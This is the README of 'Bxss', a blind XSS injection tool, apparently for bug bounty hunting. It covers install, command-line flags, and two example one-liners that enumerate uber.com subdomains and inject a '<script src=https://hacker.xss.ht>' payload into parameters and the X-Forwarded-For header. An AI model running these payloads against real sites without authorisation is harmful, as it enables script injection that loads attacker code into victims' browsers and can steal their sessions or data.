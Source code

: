 ![alt text](https://www.secjuice.com/content/images/2018/09/blinded-drib.jpg)
##### Version 1.0

# 😎 Bxss 😎
**A Blind XSS Injector tool**



[![Image from Gyazo](https://i.gyazo.com/61c052718748373ff2d267280e2e69cb.gif)](https://gyazo.com/61c052718748373ff2d267280e2e69cb)

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup


### Install


**`$ go get -u github.com/ethicalhackingplayground/bxss`**

### Arguments
```


          ____
         |  _ \
         | |_) |_  _____ ___
         |  _ <\ \/ / __/ __|
         | |_) |>  <\__ \__ \
         |____//_/\_\___/___/


        -- Coded by @z0idsec --
  -appendMode
        Append the payload to the parameter
  -concurrency int
        Set the concurrency (default 30)
  -header string
        Set the custom header (default "User-Agent")
 -headerFile string
    	Path to file containing headers to test
  -parameters
        Test the parameters for blind xss
  -payload string
        the blind XSS payload
        
```

[![Image from Gyazo](https://i.gyazo.com/c3f18487b015767f011d0845409c6e5b.gif)](https://gyazo.com/c3f18487b015767f011d0845409c6e5b)


### Blind XSS In Parameters
**`$ subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters`**

### Blind XSS In X-Forwarded-For Header

**`$ subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"`**



**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

